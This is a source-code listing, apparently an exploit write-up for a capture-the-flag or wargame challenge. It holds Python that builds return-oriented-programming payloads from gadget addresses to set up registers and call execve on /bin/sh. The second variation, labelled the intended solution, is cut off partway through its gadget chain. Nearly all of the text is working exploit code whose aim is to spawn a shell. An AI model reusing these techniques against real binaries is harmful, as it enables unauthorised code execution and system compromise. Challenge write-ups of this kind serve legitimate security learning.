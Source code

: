 ```python
 # write execve address to edx
 payload += p(0x555f3555) # move target address to edx
 payload += p(0x5556682b)
 payload += "A" * 4
 
 payload += p(0x556d2a51) # prepare ecx
 payload += p(0x2A303270)
 payload += p(0x556d382a) # add ecx to [edx]
 payload += p(0x556d2a51) # prepare ecx
 payload += p(0x2B313370)
 payload += p(0x556d382a)
 
 # write /bin/sh address to eax
 payload += p(0x556a7c60) # prepare eax
 payload += p(0x40307060)
 payload += p(0x555f3d4d) # fix eax step 1
 payload += "A" *4
 payload += p(0x40307060)
 payload += p(0x555f3d4d) # fix eax step 2
 payload += "A" * 4
 payload += p(0x2A336754)
 payload += p(0x555f3d4d) # fix eax step 3
 payload += "A" * 4
 payload += "A" * 4
 
 # adjustments
 
 payload += p(0x556a7740) # pop 3 registers (0x556a7740: pop edi; pop esi; pop ebx; ret; )
 payload += p(0x556a7740) # will be popped into edi - 0x556a7740: pop edi; pop esi; pop ebx; ret;
 payload += "B" * 4 # to be popped into esi
 payload += p(0x556e4042) # 0x556e4042 : pop ebx; bnd jmp [edx] we need to have a preceding pop since we have to get rid of the stack content
 
 # push all registers
 payload += p(0x556c683c)
 
 
 print(payload)



## VARIATION 2 (intended solution) ###


import struct


def p(addr):
    return str(struct.pack("<I",addr))


base = 0x5555e000
call_execve = 0xB876A


payload = "A" * 32 # prefiller
payload += p(0x55584a5b)  #: pop esi; pop edi; ret;
payload += "B" * 4
payload += "C" * 4
payload += p(0x55584a5b)  #: pop esi; pop edi; ret;
payload += "B" * 4
payload += "C" * 4
payload += p(0x55584a5b)  #: pop esi; pop edi; ret;
```